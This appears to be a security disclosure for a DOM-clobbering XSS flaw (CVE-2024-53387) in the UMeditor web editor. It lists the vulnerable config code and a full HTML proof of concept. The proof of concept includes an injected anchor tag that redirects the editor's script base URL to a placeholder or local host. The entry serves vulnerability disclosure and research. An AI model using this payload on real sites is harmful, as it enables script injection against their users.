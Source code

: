 ## UMeditor

### Meta

+ Library: UMeditor
+ Stars: 1.4K
+ Version: v1.2.2
+ Fingerprint: `typeof window.UM !== 'undefined' && UM.hasOwnProperty('version')`
+ Payload: ```<a id="UMEDITOR_HOME_URL" href="https://xxx.xxx.xxx/"></a>```
+ Impact: XSS
+ Status: Reported
+ CVE: CVE-2024-53387
+ Foundby: TheHulk

### Library

https://github.com/fex-team/umeditor

### Vulnerable Code Snippet

```javascript
var URL = window.UMEDITOR_HOME_URL || ...
```

```javascript
window.UMEDITOR_CONFIG = {

        //为编辑器实例添加一个路径，这个不能被注释
        UMEDITOR_HOME_URL : URL

        ...
```

## PoC

```html
<!--Library-->
<meta http-equiv="Content-Type" content="text/html;charset=utf-8"/>
<title>UMEDITOR 简单功能</title>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8"/>
<link href="/umeditor/themes/default/_css/umeditor.css" type="text/css" rel="stylesheet">
<script type="text/javascript" src="/umeditor/third-party/jquery.min.js"></script>
<script type="text/javascript" src="/umeditor/third-party/template.min.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/umeditor.config.js"></script>
<script type="text/javascript" charset="utf-8" src="/umeditor/_examples/editor_api.js"></script>
<script type="text/javascript" src="/umeditor/lang/zh-cn/zh-cn.js"></script>
<style type="text/css">
h1{
        font-family: "微软雅黑";
        font-weight: normal;
}
</style>
<script type="text/plain" id="myEditor" style="width:800px;height:240px;">
<p>这里我可以写一些输入提示</p>
</script>
<script type="text/javascript">
var um = UM.getEditor('myEditor',{
        //这里可以选择自己需要的工具按钮名称,此处仅选择如下七个
        toolbar:['fullscreen source undo redo bold italic underline'],
        //focus时自动清空初始化时的内容
        autoClearinitialContent:true,
        //关闭字数统计
        wordCount:false,
        //关闭elementPath
        elementPathEnabled:false,
        //默认的编辑区域高度
        initialFrameHeight:300
        //更多其他参数，请参考umeditor.config.js中的配置项
});
</script>
<!--Library-->

<!--Payload-->
<a id="UMEDITOR_HOME_URL" href="http://localhost:9999"></a>
<!--Payload-->
```



